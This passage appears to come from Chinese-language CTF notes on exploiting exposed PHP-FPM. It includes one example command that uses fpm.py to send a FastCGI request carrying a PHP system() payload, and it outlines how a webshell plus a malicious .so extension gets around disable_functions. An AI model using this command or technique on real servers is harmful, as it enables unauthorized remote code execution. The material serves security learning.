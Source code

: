     *   **命令示例 (使用 fpm.py):**
        ```bash
        # 假设目标 FPM 在 127.0.0.1:9000，已知 /var/www/html/index.php 存在
        python fpm.py 127.0.0.1 9000 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
        ```
        工具会构造包含上述环境变量和 Body 的 FastCGI 请求发送给 FPM。
*   **CTFHUB 示例 (利用已有 Webshell 和插件):**
    *   **原理:** 某些 WebShell 管理工具（如蚁剑）的绕过 `disable_functions` 插件利用了 PHP-FPM。它们通过已有的 WebShell 上传一个恶意的 PHP 扩展 (`.so`)，然后利用 PHP-FPM 加载这个扩展，启动一个新的、没有 `disable_functions` 限制的 PHP 进程（或修改当前 FPM worker 配置），并将后续的命令执行请求通过代理转发到这个“干净”的 PHP 环境执行。
    *   **条件:** 需要 WebShell，目标使用 PHP-FPM，存在可写目录上传 `.so`。
    ![PHP-FPM 1](./images/web9.png)
    (蚁剑连接)